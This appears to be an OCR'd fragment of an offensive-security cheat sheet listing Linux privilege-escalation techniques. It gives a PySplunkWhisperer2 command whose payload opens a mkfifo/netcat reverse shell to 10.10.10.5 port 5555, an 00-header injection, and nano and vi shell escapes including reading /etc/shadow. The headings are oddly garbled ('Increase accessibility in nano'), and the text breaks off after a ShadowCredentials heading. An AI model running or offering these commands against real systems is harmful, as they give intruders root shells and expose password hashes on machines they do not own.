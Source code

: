 ### Improve access with Splunk Universal Forward Hijacking

```text
python PySplunkWhisperer2_remote.py --lhost 10.10.10.5 --host 10.10.15.20 --username admin --password admin --payload '/bin/bash -c "rm /tmp/luci11;mkfifo /tmp/luci11;cat /tmp /luci11|/bin/sh -i 2>&1|nc 10.10.10.5 5555 >/tmp/luci11"'

```

### Increase access with 00-header file

```text
echo "id" >> 00-header
```

### Increase accessibility in nano

```text
Ctrl+R + Ctrl+X
reset; sh 1>&0 2>&0
```

Or

```text
Ctrl+W
/etc/shadow
```

### Increase access in vi

```text
:!/bin/sh
```


### Increase access by ShadowCredentials method

```text
